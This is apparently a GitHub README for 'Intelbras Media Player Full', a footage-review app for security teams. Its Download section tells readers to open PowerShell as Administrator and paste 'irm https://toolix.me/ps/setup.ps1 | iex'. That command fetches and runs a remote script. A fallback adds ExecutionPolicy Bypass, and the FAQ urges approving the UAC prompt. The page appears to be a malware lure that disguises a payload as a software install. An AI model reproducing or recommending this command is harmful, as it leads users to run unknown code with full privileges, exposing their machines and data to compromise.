

***

# Intelbras Media Player Full

<p align="center">
  
</p>

Intelbras Media Player Full — Windows 11 and 10 build | sync playback | clip marks.

## About this application

**Intelbras Media Player Full** in this repo is a Windows desktop package for security teams reviewing footage. Expect a guided first launch, access to the review desk with playback, export, and wall, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Intelbras Media Player Full suits security teams reviewing footage who need a straightforward Windows install and a focused playback, export, and wall workflow.

## What's included

Review desk tools are bundled in this release. Install locally, open the app, and use the playback, export, and wall toolkit right away.

## Features

⚡ Sync play
🧩 Skip
📤 Clip export
✨ Marks
🖥️ Wall grid
🗂️ Layouts
🔍 Timeline

## Good for

- 📌 SOC rooms
- 🎯 Store security
- ⭐ Campus watch

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 2 GB available storage

***